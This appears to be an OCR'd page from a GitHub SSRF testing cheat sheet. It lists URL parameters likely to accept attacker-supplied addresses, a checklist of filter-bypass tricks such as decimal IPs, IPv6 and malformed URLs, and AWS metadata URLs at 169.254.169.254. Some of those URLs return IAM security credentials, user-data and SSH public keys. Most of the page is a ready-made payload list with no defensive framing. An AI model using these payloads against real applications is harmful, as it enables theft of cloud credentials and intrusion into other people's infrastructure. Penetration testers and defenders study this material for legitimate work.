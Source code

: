 ```
"domain=",
"callback=",
"return=",
"page=",
"feed=",
"host=",
"port=",
"to=",
"out=",
"view=",
"dir=",
"show=",
"navigation=",
"open=",
"file=",
"document=",
"folder=",
"pg=",
"php_path=",
"style=",
"doc=",
"img=",
"filename="

```

- [ ]  try basic local host

## bypassing Filters

- [ ]  Bypass using HTTPS
- [ ]  Bypass using `[::]` or `ipv6`
- [ ]  Bypass with a domain redirection
- [ ]  Bypass using a decimal ip location
- [ ]  bypass using ipv4/ipv6 addresd embedding
- [ ]  Bypass using malformed URLs
- [ ]  Bypass using rare address(short-hand ip address by dropping zeros)
- [ ]  Bypass using Enclosed alphanumerics

## Cloud Instances

### AWS

```
<http://instance-data>
<http://169.254.169.254>
<http://169.254.169.254/latest/user-data>
<http://169.254.169.254/latest/user-data/iam/security-credentials/>[ROLE NAME]
<http://169.254.169.254/latest/meta-data/>
<http://169.254.169.254/latest/meta-data/iam/security-credentials/>[ROLE NAME]
<http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance>
<http://169.254.169.254/latest/meta-data/ami-id>
<http://169.254.169.254/latest/meta-data/reservation-id>
<http://169.254.169.254/latest/meta-data/hostname>
<http://169.254.169.254/latest/meta-data/public-keys/>
<http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key>
<http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key>
<http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy>
<http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access>
<http://169.254.169.254/latest/dynamic/instance-identity/document>

```
